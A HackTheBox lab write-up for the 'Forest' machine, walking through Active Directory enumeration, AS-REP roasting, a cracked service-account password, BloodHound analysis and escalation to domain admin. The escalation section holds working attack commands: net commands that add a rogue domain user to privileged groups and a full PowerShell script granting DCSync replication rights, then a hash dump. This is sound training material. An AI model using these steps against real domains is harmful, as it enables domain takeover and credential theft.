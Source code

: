 #  Forest - HackTheBox WriteUp

![info_card](/images/forest/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```
Full TCP Nmap Scan:
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain?      syn-ack ttl 127
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-11 19:16:21Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49908/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

#### Smb Enumeration

enum4linux 10.10.10.161. The following users were identified:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## Exploitation

Kerberoasting with Impacket - GetNPUsers.py
[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

Doing a bit of cleanup to obtain only the usernames and trying all the users with Impacket GetNPUsers.py


![getnpusers1](/images/forest/getnpusers1.png)

![getnpusers2](/images/forest/getnpusers2.png)


We obtain the hash for user svc-alfresco.

Password crack with Hashcat:


![crack_svc_alfresco](/images/forest/crack_svc_alfresco.png)

#### Foothold

Trying to authenticate using evilwin-rm with credentials svc-alfresco:s3rvice

![auth_alfresco](/images/forest/auth_alfresco.png)

#### Post Exploitation Enumeration

Running Sherlock brought NO luck
 and nothing juicy from WinPeas output.

Couldn't run systeminfo in order to try windows-exploit-sugester

After realising that we are dealing with AD here, bloodhound seems a logical way to go check for privilege escalation.

We download and run Sharphound.ps1 to our victim.

Running bloodhound on our host system

```
apt install bloodhound

neo4j console 

bloodhoud
```

and uploading the output from the victim:

![hound_out](/images/forest/hound_out.png)

This shows that we have a path to Administrator from our svc-alfresco user.

The WriteDacl permissions on svc-alfresco seen from the below screenshot will make it possible to grant DCSync rights to a user and then be then we can further dump the Administrator password.


![hound_out](/images/forest/hound_out2.png)

Searching on google we find many articles related to **Exchange Windows Permissions Privilege escalation.**

## Privilege Escalation

After failing with Privexchange and AclPWN ( note: at this point I was trying to escalate directly with my first user "svc-alfresco")

This this git page appeared to have exactly what was needed.
[github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) 

Add new user: 

`net user chris password1 /ADD /DOMAIN
`

Add user to Remote Management group ( to allow remote 
connections using WinRM/EvilWinRM): 

`net localgroup "Remote Management Users" /add chris
`

Add user to group "Exchange Windows Permissions": 

`net group "Exchange Windows Permissions" 
`

Add user to group "Organization Management(suggested in the article)": 

`net group "Organization Management" /add chris
`

Then follow the script as user chris:

But first import powerview.ps1 in order to leverage cmdlets get-acl and set-acl from AD


```
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Then Secrets Dump:

![sec_dump](/images/forest/sec_dump.png)


Authentication with the hash and root flag:


![root_auth_n_flag.png](/images/forest/root_auth_n_flag.png)


**Extra:** 

The machine had PowerView.ps1, a users.txt and revert.ps1 used for reversing the state of the machine for the svc-alfreco account permissions

Top 5 References:

1.	https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md
2.	https://github.com/dirkjanm/privexchange/
3.	https://github.com/fox-it/Invoke-ACLPwn
4.	https://spookysec.net/2019-12-01-domain-controller-sync/
5.	https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

Failed attempts:

* https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
* https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/
* https://www.theregister.co.uk/2019/01/25/microsoft_exchange_domain_admin_eop/

Likely due to the fact that I was testing with the active user svc-alfresco

Thanks for reading!

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">

